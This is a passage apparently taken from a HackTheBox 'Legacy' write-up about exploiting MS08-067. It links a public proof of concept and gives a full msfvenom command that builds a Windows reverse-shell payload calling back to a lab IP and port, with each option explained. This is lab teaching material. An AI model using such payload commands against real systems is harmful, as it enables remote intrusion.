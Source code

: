 # Exploitation

## Finding an Exploit
I generally believe in following the path of least resistance whenever possible, and ```MS08-67``` is one of the more famous exploits. I think everyone in the world uses jovoi's POC of the exploit, found on their GitHub [here](https://github.com/jivoi/pentest). Considering the age of the POC against our current Attack Platform version (Kali 2021.1 at the time of this article), we will likely need to do some python2 and python3 juggling. I'll link my finalized exploit code later on.

Reading through the POC, we will need to generate our own unique reverse shell payload. I prefer reverse shells whenever possible, as target firewalls are generally more permissive outbound, than inbound (less logging generally, too).

### Generating Shellcode
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.142 LPORT=4443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -a x86 --platform windows
```

Thankfully the POC is well documentated for what it wants for shellcode, but to break this down a bit:
    - Windows Reverse TCP shell payload
    - Call back to me on port 4443 (I try to pick ports over 1000 whenever possible)
    - If the shell exits, keep the program running (hence the thread)
    - Give it to me in Python format (saves you time reformatting)
    - x86 architecture

![Shellcode Generation](/assets/img/htb/legacy/legacy_shellcode_gen.png)
